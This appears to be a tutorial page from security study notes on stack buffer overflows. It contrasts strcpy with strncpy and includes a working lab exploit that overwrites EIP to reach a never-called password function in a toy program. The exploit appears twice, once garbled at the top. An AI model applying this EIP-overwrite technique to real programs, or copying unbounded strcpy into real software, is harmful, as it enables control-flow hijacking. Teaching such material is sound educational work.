

# e - Buffer Overflows

\#include #include

int main(int argc, char \*argv\[]) { char command\[256]; char parameter\[128];

memset(parameter,0x41,22); // fill the parameter with 'A' character

// now modify the location which overwrites the EIP

parameter\[22]= 0x48; parameter\[23]= 0x15; parameter\[24]= 0x40; parameter\[25]= 0x00;

parameter\[26] = 0 ; /\* null terminate the parameter so as previous frames are not overwritten \*/

strcpy(command , "goodpwd.exe "); strcat(command, parameter);

printf("%s\n",command);

system(command); /\* execute the command \*/ return 0; }The term "buffer" is used to refer to any area in memory where more than one piece of data is stored. An overflow occurs when we try to fill more data than the buffer can handle. Buffer Overflow is a condition where a function attempts to copy more data into a buffer than it can hold.

Suppose the computer allocates a buffer of 40 bytes (or pieces) of memory to store 10 integers ( 4 bytes per integer). An attacker sends the computer 11 integers (a total of 44 bytes) as input. Whatever was in the location after the ten 40 bytes (allocated for our buffer), gets overwritten with the 11th integer of our input. Remember that the stack grows backward. Therefore the data in the buffer are copied from lowest memory addresses to highest memory addresses.

### Example 1

```c
int main(int argc, char **argv)
{
	argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAA";
	char buffer[10];
	strcpy(buffer, argv[1]);
}
```

We see that argv\[1] contains 30 A characters, while the buffer can handle 10. We are calling the "strcpy" function to copy the value of the "argv\[1]" value into the "buffer" variable. When the program runs, the exceeding data has to go somewhere, and it will overwrite something in the memory. This is a Buffer Overflow since ther wasnt a condition to check for equality before copying.

The Program crashes, the vulnerable function is the "strcpy" function.

This means that whatever was in the memory location right after the buffer, is overwritten with our input.

In this example, it cause the application to crash, But an attacker may be able to crat the input in a way that the program executes specific code, allowing the attacker to gain control of the program flow.

But in this case, there will be no Buffer Overflow, because the data we can copy is limited by using the "srtncpy" function.

```c
int main(int argc, char **argv)
{
	argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAA";
	char buffer[10];
	strncpy(buffer, argv[1], sizeof(buffer));
	return 0
}
```

This time the function will only copy 10bytes of data from argv\[1], while the rest will be discarded.

### Explaining What happens in the Memory Stack during a Buffer Overflow

<figure><figcaption></figcaption></figure>

When the "Strcpy" function gets executed, it starts copying our input into the memory address allocated for buffer\[10]. Since there is not enough space, our input will be copued in the next memory address and will continue to fill memory addresses until there is no more input. While this is happening, it will also be overwriting all the data in those memory locations and causing the overflow.

#### What is gettinh Overwritten?

As you can ssee in this stack representatio, this data includes the EBP, the EIP and all the other bytes related to the previous stack frame. Therefore at the end of the "strcpy" instructions, our stack will look like the below image.

<figure><figcaption></figcaption></figure>

<div data-full-width="true">

<figure><figcaption></figcaption></figure>

</div>

### Example 2


```cpp
#include <iostream> 
#include <cstring>
 
int bf_overflow(char *str){ 
       char buffer[10]; 	//our buffer 
       strcpy(buffer,str);	//the vulnerable command 
       return 0; 
} 
 
int good_password(){ 		// a function which is never executed
       printf("Valid password supplied\n"); 
       printf("This is good_password function \n"); 
}
 
int main(int argc, char *argv[]) 
{ 
       int password = 0; // controls whether password is valid or not 
       printf("You are in goodpwd.exe now\n"); 
       bf_overflow(argv[1]); //call the function and pass user input 
       if ( password == 1) { 
             good_password(); //this should never happen  
 }
 	 else {
       printf("Invalid Password!!!\n");
 } 
       printf("Quitting sample1.exe\n"); 
       return 0; 
} 
```


The function "good\_password" is never executed. (Why?) Because the variable "password" is set to 0, in the first instruction of the "main". ie, "int password = 0".

<figure><figcaption><p>1</p></figcaption></figure>

<figure><figcaption><p>2</p></figcaption></figure>

<figure><figcaption><p>3</p></figcaption></figure>

<figure><figcaption><p>4</p></figcaption></figure>

<figure><figcaption><p>5</p></figcaption></figure>

<figure><figcaption><p>6</p></figcaption></figure>

<figure><figcaption><p>7</p></figcaption></figure>

<figure><figcaption><p>8</p></figcaption></figure>

<figure><figcaption><p>9</p></figcaption></figure>

<figure><figcaption><p>10</p></figcaption></figure>

<figure><figcaption><p>11</p></figcaption></figure>

<figure><figcaption><p>12</p></figcaption></figure>

<figure><figcaption><p>13</p></figcaption></figure>

<figure><figcaption><p>14</p></figcaption></figure>

<figure><figcaption><p>15</p></figcaption></figure>

<figure><figcaption><p>16</p></figcaption></figure>

<figure><figcaption><p>17</p></figcaption></figure>

<figure><figcaption><p>18</p></figcaption></figure>

<figure><figcaption><p>19</p></figcaption></figure>

<figure><figcaption><p>20</p></figcaption></figure>

<figure><figcaption><p>21</p></figcaption></figure>

<figure><figcaption><p>22</p></figcaption></figure>


```cpp
#include <iostream>
#include <cstring>

int main(int argc, char *argv[])
{
  char command[256];
  char parameter[128];
  
 memset(parameter,0x41,22); // fill the parameter with 'A' character
  
  // now modify the location which overwrites the EIP
  
  parameter[22]= 0x48;
  parameter[23]= 0x15;
  parameter[24]= 0x40;
  parameter[25]= 0x00;

  parameter[26] = 0 ;  /* null terminate the parameter so as previous frames are not overwritten */
  
  strcpy(command , "goodpwd.exe ");
  strcat(command, parameter);
  
  printf("%s\n",command);
  
  system(command);	/* execute the command */
  return 0;
}
```


<figure><figcaption><p>23</p></figcaption></figure>

<figure><figcaption><p>24</p></figcaption></figure>

<figure><figcaption><p>25</p></figcaption></figure>

<figure><figcaption><p>26</p></figcaption></figure>

<figure><figcaption><p>27</p></figcaption></figure>

<figure><figcaption><p>28</p></figcaption></figure>

<figure><figcaption><p>29</p></figcaption></figure>
